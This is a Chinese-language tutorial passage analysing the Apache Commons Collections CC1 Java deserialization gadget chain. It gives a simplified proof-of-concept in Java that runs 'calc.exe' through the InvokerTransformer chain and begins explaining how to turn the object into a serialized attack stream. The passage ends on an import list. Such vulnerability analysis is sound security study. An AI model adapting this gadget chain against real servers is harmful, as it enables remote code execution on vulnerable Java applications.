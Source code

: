 ## 2.5、CC1 简化版POC代码分析
```java
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        //声明一个Transformer 数组。
        //ConstantTransformer 返回Runtime.getRuntime()实例
        //InvokerTransformer 声明三个参数，供后续Transformer调用
        // this.iMethodName = methodName;
        //        this.iParamTypes = paramTypes;
        //        this.iArgs = args;
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]{"cmd.exe /c calc.exe"}),
        };
        //返回Transformer数组对象
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        //生成 如下两个对象：
        // this.keyTransformer = keyTransformer;
        //        this.valueTransformer = valueTransformer;
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //在setvalue中逐个转换上述的对象，触发漏洞，通过在transformKey 或者 transformValue 中进行个转化
        //最终在InvokerTransformer.tansform 中调用漏洞
        outerMap.put("test", "xxxx");
    }
}

```

调用链
Transformap.put(xx,xx)-->transformValue(value)-->valueTransformer.transform(object)--->iTransformers[i].transform(object)

![image.png](http://moonsec.top/articlepic/069ea7db4695a034567f934ad1e37554.png)

## 2.6、进阶版POC代码
上面的代码执只是⼀个用来在本地测试的类。在实际反序列化漏洞中，我们需要将上面最终生成的outerMap对象变成⼀个序列化流。
**因为在实际攻击的过程中只有构造一个恶意的数据流发送到服务器端，服务器解析该恶意的数据流触发反序列化漏洞，执行构造的恶意代码才能真正的构成攻击.**
我们如何⽣成⼀个可以利用的反序列化POC呢？中间又会遇到哪些问题呢？


### 2.6.1 问题一
Java中不是所有对象都支持序列化，待序列化的对象和所有它使用的内部属性对象，必须都实 现了 java.io.Serializable接口。而我们最早传给ConstantTransformer的是Runtime.getRuntime() ，Runtime类是没有实现 java.io.Serializable接口的，所以不允许被序列化。
比如如下的代码
```java
 import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
import java.util.StringTokenizer;

```